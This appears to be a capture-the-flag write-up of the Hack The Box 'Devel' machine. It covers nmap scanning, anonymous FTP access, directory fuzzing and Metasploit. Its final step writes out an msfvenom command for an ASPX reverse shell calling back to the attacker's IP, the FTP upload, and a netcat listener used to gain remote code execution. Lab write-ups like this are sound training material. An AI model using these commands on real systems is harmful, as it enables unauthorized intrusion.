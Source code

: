 ![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/de0f1e26-120f-4489-a162-9aec23416994)

1.What is the name of the service is running on TCP port 21 on the target machine?
First i need to use nmap, here is the switch i used: nmap -sCV <IP> results:

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/5e6337fa-7500-42b1-a02f-9f69688731fb)

That how we see, port 21 is Microsoft ftpd, we also see in this scan that we can login as Anonymous

2.Which basic FTP command can be used to upload a single file onto the server?
We can check this by man ftp.
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/242e59e5-15d3-4450-95bf-90b4db1b936b)

3.Are files put into the FTP root available via the webserver?
we can check this simply, first i log in to FTP as Anonymous and list file:
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/34dc920d-0449-4ddc-a184-374dc95058a8)

And after this i go to website and view source code, and i find welcome.png, and we can confirm the FTP root available via the webserver 
And the answer for question is "yes"

4.What file extension is executed as a script on this webserver? Don't include the ..
First step i did is a ffuf catalog on webserver, i found something
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/764efa13-cff5-4f11-b371-7d016e907104)
I go to google and find something about aspnet_client on hacktricks, the extension

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/fac28888-698c-40a5-b65a-e68af49bb78a)

Another step to find extenstion executed is interecept with Burp traffic and there we can find 
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/fb28a512-fa26-4afb-9eec-d5d67f259b94)

and also go to google, and there we can find extenstion .aspx

5.Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?
first we need turn on metasploit by command: msfconsole -q 
And then write: search suggester

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/8d7aecd0-2e17-46e3-9dee-2be5eabea7cc)

6.Submit the flag located on the babis user's desktop.
We know the FTP root available via the webserver, we can create the exploit by msfvenom and upload on the FTP server, here is the command that create the RCE.
└─$ msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.14 LPORT=4444 -o reverse-shell.aspx
And we need to go FTP and login as Anonymous and put this riverse shell by this command:
put reverse-shell.aspx
we can see on the FTP server as exploit.
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/eb6f341f-9df1-4732-b35e-92732a334c6f)

And go to website and traffic this name of exploit, and rember you need turn on your nc on port 4444 by this command: nc -lvnp 4444 without this u can't get a RCE.
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/a1b808ad-a62e-431e-96e9-c1266ed476d6)
And here is the result:

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/93cea7d2-a82e-4eba-8325-59da3e8e140b)

Now we need to find user.txt, because this is a simple CTF this must be in the some user, on Desktop.
But when i try change directory i see some problems on babies and Administrator

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/418a02b7-ab76-4f6e-ae93-48d0867fc0d2)

First my step is write systeminfo and find some exploit.

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/727bb89e-f152-41f7-80ef-a70a63e46254)
